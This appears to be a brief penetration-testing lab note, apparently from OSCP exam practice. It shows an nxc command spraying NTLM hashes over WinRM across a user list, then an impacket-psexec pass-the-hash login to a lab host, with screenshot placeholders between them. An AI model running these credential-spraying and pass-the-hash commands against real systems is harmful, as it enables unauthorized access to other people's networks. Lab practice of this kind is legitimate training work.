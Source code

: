 # sprayed hashes

```
nxc winrm 10.10.198.142 -u users -H hash -d oscp.exam --continue-on-success
```

![[Pasted image 20240611025629.png]]

# Pwn3d!

login with winrm or psexec

![[Pasted image 20240611025534.png]]

```
impacket-psexec oscp.exam/tom_admin@10.10.198.140 -hashes aad3b435b51404eeaad3b435b51404ee:4979d69d4ca66955c075c41cf
```

![[Pasted image 20240611025744.png]]

